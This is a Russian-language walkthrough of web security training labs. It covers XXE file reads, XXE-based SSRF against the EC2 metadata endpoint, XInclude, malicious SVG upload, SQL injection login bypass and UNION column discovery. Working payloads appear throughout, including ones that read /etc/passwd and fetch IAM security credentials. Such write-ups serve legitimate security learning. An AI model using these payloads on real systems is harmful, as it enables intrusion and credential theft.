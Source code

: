 # XXE

## Lab: Exploiting XXE using external entities to retrieve files

После поверхностной инспекции содержимого сайта, можно заметить форму stockCheckForm, расположенную внизу страницы конкретного продукта, например /product?productId=1. Отправка этой формы инициирует передачу данных в XML формате, что ввиду некорректной проверки содержимого приводит к уязвимости, эксплуатация которой возможна при при создании сущности <br>
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
```
<br>
и ее вызове &res; в скрытом параметре productId.

____

## Lab: Exploiting XXE using external entities to retrieve files

В описании задания сказано, что необходимо получить "IAM secret access key from the EC2 metadata endpoint". Путем чтения доков ПО EC2, [обнаруживаем](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/iam-roles-for-amazon-ec2.html), что для роли admin указанное выше можно получить по пути <br>
```url
/latest/meta-data/iam/security-credentials/
```
доступном на 80 порту
169.254.169.254.<br>
После мы эксплуатируем SSRF, отправляя аналогично предыдущему заданию запрос с XXE
```xml
<!DOCTYPE foo [ <!ENTITY res SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]> 
```
и добавляя вызов сущности в productId.
____

## Lab: Exploiting XInclude to retrieve files

Отправляя checkstock, добавляем в productId

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> 
<xi:include parse="text" href="file:///etc/passwd"/></foo> 
```
____


## Lab: Exploiting XXE via image file upload
Замечаем возможность добавлять комментарии под постами и прикреплять к комментариям изображение. <br>
Загражаем файл 1.svg со следующим содержимым:
```xml

<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
   <text font-size="16" x="0" y="16">&xxe;</text>
</svg>
```
На картинке рядом с нашим комментарием появляется hostname.

____

# SQL

## Lab: SQL injection vulnerability allowing login bypass

Манипуляции с productId не дают положительных результатов, так как, по видимому, значение данного параметра экранируется. Замечаем форму логина. В поле Username вводим:
```
administrator' or '1'='1 --
```
и произвольную последовательность символов длины 1 в поле password, так как 
### ***"Please fill out this field!"***.
____

## Lab: SQL injection UNION attack, finding a column containing text

Выбрав категорию ```'+or+1=1--```, замечаем, что нам отобразились все продукты, что говорит о наличии уязвимости SQLi.<br>
Определяем количество столбцов возвращаемых основным запросом:
```
/filter?category='+union+select+NULL+--
/filter?category='+union+select+NULL,NULL+--
/filter?category='+union+select+NULL,NULL,NULL+--
...
```
Оказывается, их 3. Предпологается, что первый столбец содержит (это распространенная практика) цифровой уникальный идентификатор id продукта, поэтому, так как в лабораторке от нас требуется возвращение SQL-запросов конкретной строки, вписываем на место второго столбца ___%uniquestrng%___, написанную под __'Back to lab home'__.
Получается запрос
```
ilter?category='+union+select+NULL,'0qOP0A',NULL+--
```
